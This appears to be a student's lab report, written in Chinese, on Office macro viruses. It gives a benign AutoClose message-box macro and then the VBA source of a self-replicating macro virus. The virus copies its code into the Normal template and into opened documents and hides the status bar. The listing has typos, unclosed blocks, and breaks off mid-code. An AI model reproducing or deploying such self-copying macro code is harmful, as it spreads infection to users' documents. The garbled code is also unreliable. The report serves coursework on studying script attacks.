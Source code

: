 ### 实验要求

脚本攻击是利用网页或者文档中可以动态执行的Javascript、VBscript等脚本语言编写恶意操作的代码，从而实现恶意操作。Office文档的宏病毒、HTML恶意脚本、跨站攻击都属于脚本攻击的范畴。

本次实验将编写并测试简单的Office宏代码，并在云实训平台上进行宏病毒实验。

### 实验一 本地宏病毒

#### 实现代码
```vb
Sub AutoClose()
'
' AutoClose 宏
'
'
MsgBox "张景赫，学号：2006040126", 0, "关闭文档测试"
End Sub
```

#### 实现效果
<div align="center">
<img src="../../Document_pic/20230308.png" width="50%">

图1 关闭word时弹出窗体
</div>

### 实验二 宏病毒自我复制功能



#### 实现代码
```vb
'Micro-Virus
Sub Document_Open()
On Error Resume Next
Application.DisplayStatusBar = False
Opitons.SaveNormaPrompt = False
Ourcode = ThisDocument.VBProject.VBComponents(1).CodeModule.Lines(1, 100)
Set host = NormalTemplate.VBProject.VBComponents(1).CodeModule
If ThisDocument = NormalTemplate Then
    Set host = ActiveDocument.VBProject.VBComponents(1).CodeModule
End If
With host
   If .Lines(1, 1) <> "'Micro-Virus" Then
        .DeleteLine 1, .CountOflines
        .InsertLines 1, Ourcode
               .ReplaceLine2 , "SubDocument_Close()"
               If ThisDocument = nomaltemplate Then
                     .replaceline 2, "Sub Document_Open()"
               ActiveDocument.SaveAs ActiveDocument.FullName
        End If
```